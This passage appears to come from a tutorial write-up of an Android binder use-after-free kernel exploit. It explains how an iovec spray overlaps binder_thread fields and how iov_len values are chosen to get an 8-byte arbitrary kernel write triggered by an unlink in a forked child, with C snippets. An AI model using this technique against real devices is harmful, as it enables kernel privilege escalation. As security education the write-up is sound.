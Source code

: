 The memory layout will be the same as the one after the spray done by `task_struct_leak`:

<img src="../images/iovec_spray.png" alt="iovec_spray" style="zoom:50%;" />

Now let's try to see what values overlap the `binder_thread` fields, and why.

```c
iovecs[IOVEC_OVERLAP_INDEX].iov_base = dummy_page;
iovecs[IOVEC_OVERLAP_INDEX].iov_len = 1;
iovecs[IOVEC_OVERLAP_INDEX + 1].iov_base = (void *) 0x41414141;
iovecs[IOVEC_OVERLAP_INDEX + 1].iov_len = 0x8 + 0x8 + 0x8 + 0x8;
iovecs[IOVEC_OVERLAP_INDEX + 2].iov_base = (void *) 0x42424242;
iovecs[IOVEC_OVERLAP_INDEX + 2].iov_len = 0x8;
```

As we did before we write the `mmap()`ed page to the `iov_base` of the first (valid) iovec to avoid locking issues, the `iov_len` can be any value, we just place 1 to get a smaller return value from `recvmsg()` (it returns the sum of all `iov_len` of valid iovecs), the other two `iov_base` pointers are set to random addresses because they'll be overwritten later, but the `iov_len` fields are so important, the second one has to be 0x8 + 0x8 + 0x8 + 0x8, we'll see later why, the last one is set to 0x8 since it's gonna be the size of the arbitrary write, since we're gonna write a kernel pointer (which is 8 bytes long), 0x8 is the right size.

Now that we sprayed our iovec array, the child triggers the unlink as we did in the previous stage, so that `iovec[11].iov_base` points to `iovec[10].iov_len`.

```c
pid_t child = fork();

if (!child) {
    /* used to avoid race conditions */
    sleep(2);
    unlink_kptr_write();
	  [...]
}
```
